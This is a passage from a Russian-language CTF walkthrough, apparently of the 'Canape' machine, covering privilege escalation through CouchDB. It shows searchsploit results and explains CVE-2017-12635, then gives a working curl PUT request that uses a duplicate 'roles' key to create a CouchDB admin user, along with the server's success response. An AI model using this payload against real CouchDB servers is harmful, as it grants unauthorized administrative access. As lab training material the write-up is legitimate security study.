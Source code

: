 ```text
{"id":"f53679a526a868d44172c83a6100451b","key":"f53679a526a868d44172c83a6100451b","value":{"rev":"1-3f6141f3aba11da1d65ff0c13fe6fd39"},"doc":{"_id":"f53679a526a868d44172c83a6100451b","_rev":"1-3f6141f3aba11da1d65ff0c13fe6fd39","character":"Moe","quote":"Oh, business is slow. People today are healthier and drinking less. You know, if it wasn't for the junior high school next door, no one would even use the cigarette machine."}}
]}

www-data@canape:/$ curl -X GET http://127.0.0.1:5984/passwords
{"error":"unauthorized","reason":"You are not authorized to access this db."}
```

Успешно прочитали таблицу с цитатами Симпсонов, но вот для открытия загадочной БД `passwords` у нас не хватило прав. Это означает лишь одно — будем искать способ для обхода ограничений СУБД для повышения привилегий в системе. Таких способа 2 (использованных мной, вообще, может больше), ниже рассмотрим оба.

## PrivEsc: www-data → homer. Способ 1
Для начала спросим у searchsploit'а, какие способы повышения привилегий в рамках CouchDB существуют:
```text
searchsploit couchdb
------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                           |  Path
                                                                         | (/usr/share/exploitdb/)
------------------------------------------------------------------------- ----------------------------------------
Apache CouchDB - Arbitrary Command Execution (Metasploit)                | exploits/linux/remote/45019.rb
Apache CouchDB 1.7.0 and 2.x before 2.1.1 - Remote Privilege Escalation  | exploits/linux/webapps/44498.py
Apache CouchDB 2.0.0 - Local Privilege Escalation                        | exploits/windows/local/40865.txt
Apache CouchDB < 2.1.0 - Remote Code Execution                           | exploits/linux/webapps/44913.py
Couchdb 1.5.0 - 'uuids' Denial of Service                                | exploits/multiple/dos/32519.txt
------------------------------------------------------------------------- ----------------------------------------
```

*Apache CouchDB 1.7.0 and 2.x before 2.1.1 - Remote Privilege Escalation* отвечает за уязвимость под номером [CVE-2017-12635](https://nvd.nist.gov/vuln/detail/CVE-2017-12635 "NVD - CVE-2017-12635") и позволяет из-под гостя создавать пользователя с правами админа за счет некорректной обработки параметров JSON-парсером Javascript'а. В [этой](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html "Remote Code Execution in CouchDB") статье механизм уязвимости описан более подробно.

Не будем пользоваться готовым скриптом для эксплуатации, а самостоятельно сформируем вредоносный запрос с помощью curl:
```text
www-data@canape:/$ curl -X PUT http://127.0.0.1:5984/_users/org.couchdb.user:3V1LH4CK3R \
--data-binary '{
  "type": "user",
  "name": "3V1LH4CK3R",
  "roles": ["_admin"],
  "roles": [],
  "password": "qwerty123"
}'
{"ok":true,"id":"org.couchdb.user:3V1LH4CK3R","rev":"1-a26b92cd5e22201ed1a5ee23f9eba1d9"}
```
